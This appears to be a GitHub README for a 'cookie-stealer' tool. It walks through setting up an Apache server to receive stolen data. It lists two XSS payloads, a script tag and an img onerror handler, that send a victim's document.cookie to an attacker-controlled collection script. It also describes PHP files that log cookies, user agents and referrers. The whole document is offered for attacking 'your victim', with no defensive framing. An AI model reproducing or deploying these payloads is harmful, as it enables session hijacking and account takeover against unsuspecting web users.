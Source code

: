 # cookie-stealer
simple cookie stealer in PHP

## usage
#### step1 - start web server on your web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache 2
```

#### step2 
clone the repository in ``` /var/www/html/ ``` directory
and go to the repository directory then give 'cookie.txt' read/write premission.
```
chmod 777 cookie.txt
```

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in the cookie file.
example of a link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal the cookies of your victim:
```
<script>window.location="http://your-server-ip-or-domain/cookie-stealer/p1.php?txt="+document.cookie</script>
<img src=/ onerror=window.location="http://your-server-ip-or-domain/cookie-stealer/p1.php?txt="+document.cookie></img>
```

### p1.php
p1.php is a basic version of cookie stealer that receives and stores just the value of the txt parameter.

### p2.php
p2.php stores more data from the victim. you can store ``` date user-agent referrer ``` too.
